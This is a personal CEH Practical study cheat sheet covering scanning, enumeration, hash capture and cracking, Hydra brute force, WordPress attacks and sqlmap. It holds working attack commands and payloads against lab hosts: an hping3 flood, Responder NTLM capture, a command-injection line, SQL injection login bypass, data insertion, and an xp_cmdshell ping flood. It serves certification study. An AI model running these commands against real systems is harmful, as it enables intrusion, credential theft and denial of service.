 # MY CEH Practical Note

## Tool Ref.
- nmap : https://www.stationx.net/nmap-cheat-sheet/ 
- Hping DDOS: https://linuxhint.com/hping3/ 
- Hydra : https://github.com/frizb/Hydra-Cheatsheet 
- WindowsCommand : 
https://www.thomas-krenn.com/en/wiki/Cmd_commands_under_Windows 
https://www.lifewire.com/net-user-command-2618097 

## fileShare

- access windows smb on linux : smb://ip
- python : python -m SimpleHTTP 
- apache server :  
service apache2 start  
cd /var/www/html

## Module 01 : Cryptography 
Hash : MD5 
Encrepted Disk : VeraCrypt 
Stegnography : openStego  or  QuickStego  for picture

## Module 03 : Enumeration / Scanning

ping www.moviescope.com –f –l 1500 -> Frame size
tracert www.moviescope.com -> Determining hop count

### IP Range 
Open gui enter the range 10.10.10.0 - 255

### Nmap

nmap  -T 4 -sV -sC  -p- 10.10.10.0/24

### Metasploit :
#### Enumeration using Metasploit :

msfdb init
service postgresql start
msfconsole
msf > db_status
nmap -Pn -sS -A -oX Test 10.10.10.0/24
db_import Test
hosts -> To show all available hosts in the subnet
db_nmap -sS -A 10.10.10.16 -> To extract services of particular machine
services -> to get all available services in a subnet

####  SMB Version Enumeration using MSF
use scanner/smb/smb_version
set RHOSTS 10.10.10.8-16
set THREADS 100
run
hosts -> now exact os_flavor information has been updated

### Scanning Networks
- Port Scanning using Hping3:
hping3 --scan 1-3000 -S 10.10.10.10
--scan parameter defines the port range to scan and –S represents SYN flag.

- Pinging the target using HPing3:
hping3 -c 3 10.10.10.10
-c 3 means that we only want to send three packets to the target machine.

- UDP Packet Crafting
hping3 10.10.10.10 --udp --rand-source --data 500

- TCP SYN request
hping3 -S 10.10.10.10 -p 80 -c 5
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.

- HPing flood
hping3 10.10.10.10 --flood

### snmp-check
snmp-check #targetip

## Module 04 : Enumeration

### SNMP Enumeration (161) :
nmap –sU –p 161 10.10.10.12
nmap -sU -p 161 --script=snmp-brute 10.10.10.12

msfconsole
use auxiliary/scanner/snmp/snmp_login
set RHOSTS and exploit
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS and exploit

### NetBIOS Enumeration (139) : 

nbtstat –A 10.10.10.16
net use
net use \10.10.10.16\e ““\user:””
net use \10.10.10.16\e ““/user:””
NetBIOS Enumerator

### Enum4Linux Wins Enumeration :

enum4linux -u martin -p apple -U 10.10.10.12 -> Users Enumeration
enum4linux -u martin -p apple -o 10.10.10.12 -> OS Enumeration
enum4linux -u martin -p apple -P 10.10.10.12 -> Password Policy Information
enum4linux -u martin -p apple -G 10.10.10.12 -> Groups Information
enum4linux -u martin -p apple -S 10.10.10.12 -> Share Policy Information (SMB Shares Enumeration

### Active Directory LDAP Enumeration
use ADExplorer

## Module 05 : Vulnerability Analysis 

- nikto -h http://www.goodshopping.com -Tuning 1 
- Nessus 

## Module 06 : System Hacking
### NTLM Hash crack :

- responder -I eth0 # trigger wrong smb path
- usr\share\responder\logs --> Responder log location
- john /usr/share/responder/logs/ntlm.txt

### Rainbowtable crack using Winrtgen/RainbowCrack :
WINRTGEN : Create rainbow
RainbowCrack : Use rainbow

- Open **WINRTGEN** and add new table
- Select ntlm from Hash dropdown list.
- Set Min Len as 4, Max Len as 6 and Chain Count 4000000
- Select loweralpha from Charset dropdown list (it depends upon Password).
- rcrack_gui.exe to crack hash with rainbow table

### Hash dump with Pwdump7 and crack with ohpcrack :

- wmic useraccount get name,sid --> Get user acc names and SID
- PwDump7.exe > c:\hashes.txt
- Replace boxes in hashes.txt with relevant usernames from step 1.
- Ophcrack.exe -> load -> PWDUMP File
- Tables -> Vista free -> select the table directory -> crack


## Module 08 : Sniffing


- Request Search: http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request 

- Capture traffic from remote interface via wireshark
	Capture > Options > Manage Interfaces 
	Remote Interface > Add > Host &  Port (2002)
	Username & password > Start

## Module 13 : Hacking Web Servers
### FTP Bruteforce with Hydra
#### Hydra
hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11


## Module 14 : Hacking Web Applications

Wordpress
wpscan --url http://10.10.10.12:8080/CEH --enumerate u

WP password bruteforce
msfconsole
use auxiliary/scanner/http/wordpress_login_enum

RCE 
ping 127.0.0.1 | hostname | net user


## Module 15 : SQL Injection
browser>> Console >> document.cookie # get cookie 

### SQLMAP
-  Extract DBS
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

- Extract Tables
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

- Extract Columns
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

- Dump Data
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

- OS Shell to execute commands
sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

- Login bypass
blah' or 1=1 --

- Insert data into DB from login
blah';insert into login values ('john','apple123');

- Create database from login
blah';create database mydatabase;

- Execute cmd from login | DOS 
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --


